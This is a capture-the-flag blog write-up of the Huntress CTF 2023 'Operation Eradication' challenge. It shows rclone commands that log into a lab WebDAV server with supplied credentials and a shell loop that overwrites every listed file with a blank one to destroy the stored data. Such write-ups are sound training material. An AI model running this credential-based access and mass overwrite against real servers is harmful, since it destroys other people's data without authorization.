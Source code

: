 ```yaml
---
title: "Operation Eradication"
date: 2023-10-20T13:11:20-10:01
#draft: true
tags: ['CTF','Writeups', 'Misc', 'Medium']
---
```

 
# [Home](https://jjolley91.github.io/blog/) >

###  [Huntress CTF](https://jjolley91.github.io/blog/huntress_ctf_2023) >  [Medium Challenges](https://jjolley91.github.io/blog/huntress_ctf_2023/2.medium/)

## [Back](https://jjolley91.github.io/blog/huntress_ctf_2023/2.medium/thumb_drive)  <> [Next](https://jjolley91.github.io/blog/huntress_ctf_2023/2.medium/speakfriend) 

### Oh no! A ransomware operator encrypted an environment, and exfiltrated data that they will soon use for blackmail and extortion if they don't receive payment! They stole our data!

### Luckily, we found what looks like a configuration file, that seems to have credentials to the actor's storage server... but it doesn't seem to work. Can you get onto their server and delete all the data they stole!? 

Here we are given a txt file to download named 'operation_eradication'. This is a txt file with the following contents:
```txt
type = webdav
url = http://localhost/webdav
vendor = other
user = VAHycYhK2aw9TNFGSpMf1b_2ZNnZuANcI8-26awGLYkwRzJwP_buNsZ1eQwRkmjQmVzxMe5r
pass = HOUg3Z2KV2xlQpUfj6CYLLqCspvexpRXU9v8EGBFHq543ySEoZE9YSdH7t8je5rWfBIIMS-5
```
We are also given a webserver to spin up. Visiting the page we see that there are 133 files which need to be deleted. 

![operation_eradication1](https://github.com/jjolley91/blog/blob/main/static/Huntress_CTF_2023/operation_eradication1.png?raw=true)

If we visit the '/webdav' directory of the site we are prompted for login credentials. However, the credentials provided in the file do not seem to work. We ended up using [rclone](https://rclone.org/webdav/) with the credentials, and were able to access the files:
```bash
rclone ls :webdav: --webdav-url=http://chal.ctf.games:32310/webdav/ --webdav-vendor=other --webdav-user=VAHycYhK2aw9TNFGSpMf1b_2ZNnZuANcI8-26awGLYkwRzJwP_buNsZ1eQwRkmjQmVzxMe5r --webdav-pass=HOUg3Z2KV2xlQpUfj6CYLLqCspvexpRXU9v8EGBFHq543ySEoZE9YSdH7t8je5rWfBIIMS-5
```

This allowed us to see the various directories, and start trying to delete the files. There was a problem, however, in that we are only able to move and copy the files, we do not have the ability to actually delete them. 

So we need to find a way to delete the files without deleting the files. We can achieve this by creating a blank txt file, and copying it into the files, effectively erasing the data.
```bash
rclone copyto ./test.txt :webdav:HumanResources/EmployeeHandbook.pdf --webdav-url=http://chal.ctf.games:32310/webdav/ --webdav-vendor=other --webdav-user=VAHycYhK2aw9TNFGSpMf1b_2ZNnZuANcI8-26awGLYkwRzJwP_buNsZ1eQwRkmjQmVzxMe5r --webdav-pass=HOUg3Z2KV2xlQpUfj6CYLLqCspvexpRXU9v8EGBFHq543ySEoZE9YSdH7t8je5rWfBIIMS-5 --size-only
```
Now we only need to repeat this process for the 132 remaining files. We can automate this process by saving the output of the ls command we ran into a .txt file, and removing the file size so that only the file paths remain. Finally, we simply use a for loop to copy our blank .txt file into all of the files like so:

```bash
for f in $(cat list.txt); do rclone copyto ./test.txt :webdav:$f --webdav-url=http://chal.ctf.games:32310/webdav/ --webdav-vendor=other --webdav-user=VAHycYhK2aw9TNFGSpMf1b_2ZNnZuANcI8-26awGLYkwRzJwP_buNsZ1eQwRkmjQmVzxMe5r --webdav-pass=HOUg3Z2KV2xlQpUfj6CYLLqCspvexpRXU9v8EGBFHq543ySEoZE9YSdH7t8je5rWfBIIMS-5; done
```
We can return to the home page and retrieve the flag!

![operation_eradication2](https://github.com/jjolley91/blog/blob/main/static/Huntress_CTF_2023/operation_eradication.png?raw=true)

## [Back](https://jjolley91.github.io/blog/huntress_ctf_2023/2.medium/thumb_drive)  <> [Next](https://jjolley91.github.io/blog/huntress_ctf_2023/2.medium/speakfriend) 
